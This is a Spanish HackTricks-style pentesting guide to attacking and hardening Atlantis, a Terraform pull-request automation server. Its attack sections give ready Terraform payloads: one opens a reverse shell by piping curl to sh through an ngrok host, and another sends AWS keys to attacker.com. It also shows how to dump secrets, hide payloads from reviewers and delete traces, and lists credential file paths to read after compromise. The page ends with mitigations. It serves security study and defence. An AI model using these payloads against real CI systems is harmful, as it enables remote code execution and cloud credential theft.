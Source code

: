 # Seguridad de Atlantis

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en github.

</details>
{% endhint %}

## Información Básica

Básicamente, Atlantis te ayuda a ejecutar terraform desde solicitudes de extracción de tu servidor git.

![](<../.gitbook/assets/image (161).png>)

## Laboratorio Local

1. Ve a la **página de lanzamientos de atlantis** en [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) y **descarga** la que te convenga.
2. Crea un **token personal** (con acceso al repositorio) de tu usuario de **github**
3. Ejecuta `./atlantis testdrive` y creará un **repositorio de demostración** que puedes usar para **comunicarte con atlantis**
1. Puedes acceder a la página web en 127.0.0.1:4141

## Acceso a Atlantis

### Credenciales del Servidor Git

**Atlantis** admite varios hosts de git como **Github**, **Gitlab**, **Bitbucket** y **Azure DevOps**.\
Sin embargo, para acceder a los repositorios en esas plataformas y realizar acciones, necesita tener cierto **acceso privilegiado otorgado a ellos** (al menos permisos de escritura).\
[**La documentación**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) recomienda crear un usuario en estas plataformas específicamente para Atlantis, pero algunas personas podrían usar cuentas personales.

{% hint style="warning" %}
En cualquier caso, desde la perspectiva de un atacante, la **cuenta de Atlantis** va a ser muy **interesante de comprometer**.
{% endhint %}

### Webhooks

Atlantis utiliza opcionalmente [**Secretos de Webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) para validar que los **webhooks** que recibe de tu host de Git son **legítimos**.

Una forma de confirmar esto sería **permitir que las solicitudes solo provengan de las IPs** de tu host de Git, pero una forma más fácil es usar un Secreto de Webhook.

Ten en cuenta que a menos que uses un servidor privado de github o bitbucket, deberás exponer los puntos finales de webhook a Internet.

{% hint style="warning" %}
Atlantis va a estar **exponiendo webhooks** para que el servidor git le envíe información. Desde la perspectiva de un atacante, sería interesante saber **si puedes enviarle mensajes**.
{% endhint %}

### Credenciales del Proveedor <a href="#provider-credentials" id="provider-credentials"></a>

[Desde la documentación:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis ejecuta Terraform simplemente **ejecutando los comandos `terraform plan` y `apply`** en el servidor **donde Atlantis está alojado**. Al igual que cuando ejecutas Terraform localmente, Atlantis necesita credenciales para tu proveedor específico.

Depende de ti cómo [proporcionar credenciales](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) para tu proveedor específico a Atlantis:

* El Chart de Helm de Atlantis y el Módulo de AWS Fargate tienen sus propios mecanismos para las credenciales del proveedor. Lee sus documentaciones.
* Si estás ejecutando Atlantis en la nube, muchas nubes tienen formas de dar acceso a la API de la nube a las aplicaciones que se ejecutan en ellas, por ejemplo:
* [Roles de EC2 de AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Buscar "EC2 Role")
* [Cuentas de Servicio de Instancia de GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Muchos usuarios establecen variables de entorno, por ejemplo `AWS_ACCESS_KEY`, donde se está ejecutando Atlantis.
* Otros crean los archivos de configuración necesarios, por ejemplo `~/.aws/credentials`, donde se está ejecutando Atlantis.
* Usa el [Proveedor de HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) para obtener credenciales del proveedor.

{% hint style="warning" %}
El **contenedor** donde **Atlantis** está **ejecutándose** probablemente **contendrá credenciales privilegiadas** para los proveedores (AWS, GCP, Github...) que Atlantis está gestionando a través de Terraform.
{% endhint %}

### Página Web

Por defecto, Atlantis ejecutará una **página web en el puerto 4141 en localhost**. Esta página simplemente te permite habilitar/deshabilitar la aplicación de atlantis y verificar el estado del plan de los repositorios y desbloquearlos (no permite modificar cosas, por lo que no es tan útil).

Probablemente no la encontrarás expuesta a Internet, pero parece que por defecto **no se necesitan credenciales** para acceder (y si se necesitan, `atlantis`:`atlantis` son las **predeterminadas**).

## Configuración del Servidor

La configuración de `atlantis server` se puede especificar a través de banderas de línea de comandos, variables de entorno, un archivo de configuración o una combinación de los tres.

* Puedes encontrar [**aquí la lista de banderas**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) admitidas por el servidor Atlantis
* Puedes encontrar [**aquí cómo transformar una opción de configuración en una variable de entorno**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Los valores se **eligen en este orden**:

1. Banderas
2. Variables de Entorno
3. Archivo de Configuración

{% hint style="warning" %}
Ten en cuenta que en la configuración podrías encontrar valores interesantes como **tokens y contraseñas**.
{% endhint %}

### Configuración de Repositorios

Algunas configuraciones afectan **cómo se gestionan los repositorios**. Sin embargo, es posible que **cada repositorio requiera ajustes diferentes**, por lo que hay formas de especificar cada repositorio. Este es el orden de prioridad:

1. Archivo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config). Este archivo se puede utilizar para especificar cómo atlantis debería tratar el repositorio. Sin embargo, por defecto algunas claves no se pueden especificar aquí sin algunas banderas que lo permitan.
1. Probablemente sea necesario permitirlo con banderas como `allowed_overrides` o `allow_custom_workflows`
2. [**Configuración del Lado del Servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Puedes pasarla con la bandera `--repo-config` y es un yaml que configura nuevos ajustes para cada repositorio (admite regexes)
3. Valores **predeterminados**
#### Protecciones de PR

Atlantis permite indicar si deseas que el **PR** sea **`aprobado`** por otra persona (incluso si no está configurado en la protección de la rama) y/o sea **`fusionable`** (protecciones de rama aprobadas) **antes de ejecutar apply**. Desde un punto de vista de seguridad, se recomienda configurar ambas opciones.

En caso de que `allowed_overrides` sea True, esta configuración puede ser **sobrescrita en cada proyecto por el archivo `/atlantis.yml`**.

#### Scripts

La configuración del repositorio puede **especificar scripts** para ejecutar [**antes**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) y [**después**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) de que se ejecute un **flujo de trabajo**.

No hay ninguna opción que permita **especificar** estos scripts en el **archivo `/atlantis.yml`** del repositorio.

#### Flujo de trabajo

En la configuración del repositorio (configuración del lado del servidor) puedes [**especificar un nuevo flujo de trabajo predeterminado**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), o [**crear nuevos flujos de trabajo personalizados**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** También puedes **especificar** qué **repositorios** pueden **acceder** a los **nuevos** generados.\
Luego, puedes permitir que el archivo **atlantis.yaml** de cada repositorio **especifique el flujo de trabajo a utilizar**.

{% hint style="danger" %}
Si la bandera de [**configuración del lado del servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` está configurada como **True**, los flujos de trabajo pueden ser **especificados** en el archivo **`atlantis.yaml`** de cada repositorio. También potencialmente se necesita que **`allowed_overrides`** especifique también **`workflow`** para **sobrescribir el flujo de trabajo** que se va a utilizar.\
Básicamente esto dará **RCE en el servidor de Atlantis a cualquier usuario que pueda acceder a ese repositorio**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Verificación de Políticas con Conftest

Atlantis admite la ejecución de **políticas** de [**conftest**](https://www.conftest.dev/) en el lado del **servidor** contra la salida del plan. Algunos casos de uso comunes para utilizar este paso incluyen:

* Denegar el uso de una lista de módulos
* Afirmar atributos de un recurso en el momento de la creación
* Detectar eliminaciones no intencionales de recursos
* Prevenir riesgos de seguridad (es decir, exponer puertos seguros al público)

Puedes ver cómo configurarlo en [**la documentación**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Comandos de Atlantis

En [**la documentación**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) puedes encontrar las opciones que puedes utilizar para ejecutar Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Ataques

{% hint style="warning" %}
Si durante la explotación encuentras este **error**: `Error: Error acquiring the state lock`

Puedes solucionarlo ejecutando:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Plan RCE de Atlantis - Modificación de configuración en nuevo PR

Si tienes acceso de escritura sobre un repositorio, podrás crear una nueva rama en él y generar un PR. Si puedes **ejecutar `atlantis plan`** (o tal vez se ejecute automáticamente) **podrás realizar una RCE dentro del servidor de Atlantis**.

Puedes hacer esto haciendo que [**Atlantis cargue una fuente de datos externa**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Simplemente coloca un payload como el siguiente en el archivo `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Ataque más sigiloso

Puedes realizar este ataque de una manera aún más sigilosa, siguiendo estas sugerencias:

* En lugar de agregar la reverse shell directamente al archivo de terraform, puedes **cargar un recurso externo** que contenga la reverse shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puedes encontrar el código de rev shell en [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* En el recurso externo, usa la característica **ref** para ocultar el **código de rev shell de terraform en una rama** dentro del repositorio, algo así: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **En lugar** de crear un **PR a master** para activar Atlantis, **crea 2 ramas** (test1 y test2) y crea un **PR de una a la otra**. Cuando hayas completado el ataque, simplemente **elimina el PR y las ramas**.

### Atlantis plan Secrets Dump

Puedes **filtrar secretos utilizados por terraform** ejecutando `atlantis plan` (`terraform plan`) colocando algo como esto en el archivo de terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis aplica RCE - Modificación de configuración en nueva PR

Si tienes acceso de escritura sobre un repositorio, podrás crear una nueva rama en él y generar una PR. Si puedes **ejecutar `atlantis apply`, podrás realizar una RCE dentro del servidor de Atlantis**.

Sin embargo, generalmente necesitarás evadir algunas protecciones:

- **Fusionable**: Si esta protección está configurada en Atlantis, solo podrás ejecutar **`atlantis apply` si la PR es fusionable** (lo que significa que la protección de la rama debe ser evadida).
- Consulta posibles [**bypasses de protecciones de rama**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Aprobado**: Si esta protección está configurada en Atlantis, **otro usuario debe aprobar la PR** antes de que puedas ejecutar `atlantis apply`
- Por defecto, puedes abusar del [**token de Gitbot para evadir esta protección**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Ejecutando **`terraform apply` en un archivo Terraform malicioso con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Solo necesitas asegurarte de que algún payload como los siguientes termine en el archivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Sigue las **sugerencias de la técnica anterior** para realizar este ataque de una manera **más sigilosa**.

### Inyección de Parámetros en Terraform

Cuando se ejecuta `atlantis plan` o `atlantis apply`, terraform se ejecuta en segundo plano, puedes pasar comandos a terraform desde atlantis comentando algo así:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Algo que puedes pasar son variables de entorno que podrían ser útiles para evadir algunas protecciones. Consulta las variables de entorno de Terraform en [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Flujo de Trabajo Personalizado

Ejecutar **comandos de compilación personalizados maliciosos** especificados en un archivo `atlantis.yaml`. Atlantis utiliza el archivo `atlantis.yaml` de la rama de la solicitud de extracción, **no** de `master`.\
Esta posibilidad fue mencionada en una sección anterior:

{% hint style="danger" %}
Si la bandera de configuración del lado del servidor [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) está establecida en **True**, los flujos de trabajo pueden ser **especificados** en el archivo **`atlantis.yaml`** de cada repositorio. También potencialmente se necesita que **`allowed_overrides`** especifique también **`workflow`** para **sobrescribir el flujo de trabajo** que se va a utilizar.

Esto básicamente dará **RCE en el servidor de Atlantis a cualquier usuario que pueda acceder a ese repositorio**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Saltar protecciones de plan/apply

Si la bandera de [**configuración del lado del servidor**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _tiene_ `apply_requirements` configurado, es posible para un repositorio **modificar las protecciones de plan/apply para saltarlas**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Secuestro de PR

Si alguien envía comentarios **`atlantis plan/apply` en tus pull requests válidos,** hará que terraform se ejecute cuando no lo desees.

Además, si no tienes configurado en la **protección de la rama** para pedir **reevaluar** cada PR cuando se **empuje un nuevo commit** a ella, alguien podría **escribir configuraciones maliciosas** (ver escenarios anteriores) en la configuración de terraform, ejecutar `atlantis plan/apply` y obtener RCE.

Esta es la **configuración** en las protecciones de rama de Github:

![](<../.gitbook/assets/image (216).png>)

### Secreto de Webhook

Si logras **robar el secreto del webhook** utilizado o si no se está utilizando **ningún secreto de webhook**, podrías **llamar al webhook de Atlantis** e **invocar comandos de atlantis** directamente.

### Bitbucket

Bitbucket Cloud **no admite secretos de webhook**. Esto podría permitir a los atacantes **falsificar solicitudes desde Bitbucket**. Asegúrate de permitir solo las IP de Bitbucket.

* Esto significa que un **atacante** podría hacer **solicitudes falsas a Atlantis** que parecen provenir de Bitbucket.
* Si estás especificando `--repo-allowlist` entonces solo podrían falsificar solicitudes relacionadas con esos repositorios, por lo que el daño máximo que podrían hacer sería planificar/aplicar en tus propios repositorios.
* Para prevenir esto, permite [las direcciones IP de Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (ver direcciones IP salientes de IPv4).

## Post-Explotación

Si lograste acceder al servidor o al menos obtuviste un LFI, hay algunas cosas interesantes que deberías intentar leer:

* `/home/atlantis/.git-credentials` Contiene credenciales de acceso a VCS
* `/atlantis-data/atlantis.db` Contiene credenciales de acceso a VCS con más información
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Archivo de estado de Terraform
* Ejemplo: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Variables de entorno
* `/proc/[2-20]/cmdline` Línea de comandos de `atlantis server` (puede contener datos sensibles)

## Mitigaciones

### No Utilizar en Repositorios Públicos <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Debido a que cualquiera puede comentar en pull requests públicos, incluso con todas las mitigaciones de seguridad disponibles, sigue siendo peligroso ejecutar Atlantis en repositorios públicos sin una configuración adecuada de los ajustes de seguridad.

### No Utilizar `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Si estás ejecutando en un repositorio público (lo cual no se recomienda, ver arriba) no deberías establecer `--allow-fork-prs` (por defecto es falso) porque cualquiera puede abrir un pull request desde su fork a tu repositorio.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis requiere que especifiques una lista blanca de repositorios desde los cuales aceptará webhooks a través de la bandera `--repo-allowlist`. Por ejemplo:

* Repositorios específicos: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Toda tu organización: `--repo-allowlist=github.com/runatlantis/*`
* Todos los repositorios en tu instalación de GitHub Enterprise: `--repo-allowlist=github.tuempresa.com/*`
* Todos los repositorios: `--repo-allowlist=*`. Útil cuando estás en una red protegida pero peligroso sin establecer también un secreto de webhook.

Esta bandera asegura que tu instalación de Atlantis no esté siendo utilizada con repositorios que no controlas. Consulta `atlantis server --help` para más detalles.

### Proteger la Planificación de Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Si los atacantes que envían pull requests con código malicioso de Terraform están en tu modelo de amenazas, debes ser consciente de que las aprobaciones de `terraform apply` no son suficientes. Es posible ejecutar código malicioso en un `terraform plan` utilizando el [origen de datos `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) o especificando un proveedor malicioso. Este código podría exfiltrar tus credenciales.

Para prevenir esto, podrías:

1. Incluir proveedores en la imagen de Atlantis o en el host y denegar la salida en producción.
2. Implementar el protocolo del registro de proveedores internamente y denegar la salida pública, de esta manera controlas quién tiene acceso de escritura al registro.
3. Modificar el [configuración del repositorio del lado del servidor](https://www.runatlantis.io/docs/server-side-repo-config.html) `plan` para validar contra el uso de proveedores o fuentes de datos no permitidos o PRs de usuarios no permitidos. También podrías agregar validaciones adicionales en este punto, por ejemplo, requerir un "ok" en el PR antes de permitir que el `plan` continúe. Conftest podría ser útil aquí.

### Secretos de Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis debe ejecutarse con secretos de Webhook configurados a través de las variables de entorno `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Incluso con la bandera `--repo-allowlist` establecida, sin un secreto de webhook, los atacantes podrían hacer solicitudes a Atlantis haciéndose pasar por un repositorio que está en la lista blanca. Los secretos de webhook aseguran que las solicitudes de webhook realmente provengan de tu proveedor de VCS (GitHub o GitLab).

Si estás utilizando Azure DevOps, en lugar de secretos de webhook agrega un nombre de usuario y contraseña básicos.

### Autenticación Básica de Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps admite enviar un encabezado de autenticación básica en todos los eventos de webhook. Esto requiere usar una URL HTTPS para la ubicación de tu webhook.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Si estás utilizando secretos de webhook pero tu tráfico es a través de HTTP, los secretos de webhook podrían ser robados. Habilita SSL/HTTPS utilizando las banderas `--ssl-cert-file` y `--ssl-key-file`.

### Habilitar Autenticación en el Servidor Web de Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Es muy recomendable habilitar la autenticación en el servicio web. Habilita BasicAuth usando `--web-basic-auth=true` y configura un nombre de usuario y una contraseña usando las banderas `--web-username=tuUsuario` y `--web-password=tuContraseña`.

También puedes pasar estos como variables de entorno `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=tuUsuario` y `ATLANTIS_WEB_PASSWORD=tuContraseña`.

## Referencias

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
